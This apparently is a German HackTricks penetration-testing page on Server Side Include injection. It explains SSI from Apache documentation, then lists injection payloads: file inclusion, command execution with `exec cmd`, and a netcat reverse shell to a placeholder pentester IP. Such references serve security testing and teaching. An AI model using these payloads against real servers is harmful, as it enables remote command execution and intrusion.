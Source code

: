 # Server Side Inclusion/Edge Side Inclusion Injection

{{#include ../banners/hacktricks-training.md}}

## Server Side Inclusion Grundinformationen

**(Einführung entnommen aus** [**Apache-Dokumentation**](https://httpd.apache.org/docs/current/howto/ssi.html)**)**

SSI (Server Side Includes) sind Direktiven, die **in HTML-Seiten platziert und auf dem Server ausgewertet** werden, während die Seiten bereitgestellt werden. Sie ermöglichen es Ihnen, **dynamisch generierte Inhalte** zu einer bestehenden HTML-Seite hinzuzufügen, ohne die gesamte Seite über ein CGI-Programm oder eine andere dynamische Technologie bereitstellen zu müssen.\
Zum Beispiel könnten Sie eine Direktive in eine bestehende HTML-Seite einfügen, wie:

`<!--#echo var="DATE_LOCAL" -->`

Und wenn die Seite bereitgestellt wird, wird dieses Fragment ausgewertet und durch seinen Wert ersetzt:

`Dienstag, 15-Jan-2013 19:28:54 EST`

Die Entscheidung, wann SSI verwendet werden soll und wann Ihre Seite vollständig von einem Programm generiert werden soll, hängt normalerweise davon ab, wie viel der Seite statisch ist und wie viel jedes Mal neu berechnet werden muss, wenn die Seite bereitgestellt wird. SSI ist eine großartige Möglichkeit, kleine Informationsstücke hinzuzufügen, wie die aktuelle Zeit - oben gezeigt. Aber wenn der Großteil Ihrer Seite zum Zeitpunkt der Bereitstellung generiert wird, müssen Sie nach einer anderen Lösung suchen.

Sie können das Vorhandensein von SSI ableiten, wenn die Webanwendung Dateien mit den Erweiterungen **`.shtml`, `.shtm` oder `.stm`** verwendet, aber das ist nicht der einzige Fall.

Ein typischer SSI-Ausdruck hat das folgende Format:
```
<!--#directive param="value" -->
```
### Überprüfen
```javascript
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
```